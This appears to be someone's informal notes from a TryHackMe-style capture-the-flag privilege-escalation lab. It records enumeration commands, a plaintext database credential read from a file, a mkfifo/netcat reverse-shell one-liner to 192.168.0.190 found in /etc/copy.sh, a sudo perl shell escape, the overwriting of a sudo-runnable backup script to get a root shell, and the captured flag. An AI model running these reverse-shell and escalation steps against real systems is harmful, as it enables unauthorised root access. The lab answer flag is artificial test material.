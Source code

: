 -rw-r--r-x 1 root root 47 Nov 29  2019 /home/itguy/backup.pl

They are unequivocally screwed we have passwordless backup .pl access and the PEARL BINARY. This really is a lazy admin

https://gtfobins.github.io/gtfobins/perl/

$ sudo perl -e 'exec "/bin/sh";'
sudo: no tty present and no askpass program specified

okay I dont have the right tty and the .py file I have all execute to doesnt have non root write perms so I should slow down and keep enumerating

$ cat mysql_login.txt
rice:randompass

Oh, this might be SQL but lets keep looking at stuff

$ head -n 20 backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ 

$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh

oh, got it, they're cooked backup can run without password as sudo and backup runs a .sh, we just need to edit the bash script

$ echo 'system("/bin/bash");' > /home/itguy/backup.pl  

![[Pasted image 20251024102232.png]]

cd /root
ls
root.txt
cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}

